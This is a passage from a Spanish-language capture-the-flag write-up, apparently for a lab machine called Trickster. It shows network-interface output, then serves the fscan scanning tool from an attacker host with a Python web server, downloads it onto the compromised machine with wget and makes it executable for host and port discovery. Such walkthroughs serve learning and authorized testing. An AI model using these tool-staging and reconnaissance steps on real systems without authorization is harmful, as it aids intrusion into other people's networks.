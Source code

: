 ```bash
        RX packets 101550  bytes 15784782 (15.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 91338  bytes 36801649 (36.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 141463  bytes 203455605 (203.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 141463  bytes 203455605 (203.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth6d1f8aa: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 5a:0c:1d:90:89:3a  txqueuelen 0  (Ethernet)
        RX packets 5  bytes 354 (354.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 42 (42.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Discovering new hosts and ports (fscan)

A través de la herramienta de `fscan`, trataremos de descubrir nuevos hosts de una red y sus puertos expuestos, similar a Nmap pero sirve más para un escaneo inicial rápido y efectivo. No hace falta que sea instalado a diferencia de Nmap.

{% embed url="https://github.com/shadow1ng/fscan" %}

Nos descargaremos el binario de `fscan`, levantaremos un servidor web para compartir el binario.

```bash
❯ ls -l fscan
.rwxrwxr-x kali kali 6.8 MB Sat May 11 11:04:09 2024  fscan

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos el binario en el equipo y le daremos permisos de ejecución.

```bash
james@trickster:/tmp$ wget 10.10.16.5/fscan
--2025-01-24 23:28:44--  http://10.10.16.5/fscan
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: ‘fscan’

fscan          100%[==============================>]   6.77M  2.87MB/s    in 2.4s    

2025-01-24 23:28:46 (2.87 MB/s) - ‘fscan’ saved [7100304/7100304]

james@trickster:/tmp$ ls -l fscan 
-rw-rw-r-- 1 james james 7100304 May 11  2024 fscan
james@trickster:/tmp$ chmod +x fscan
```
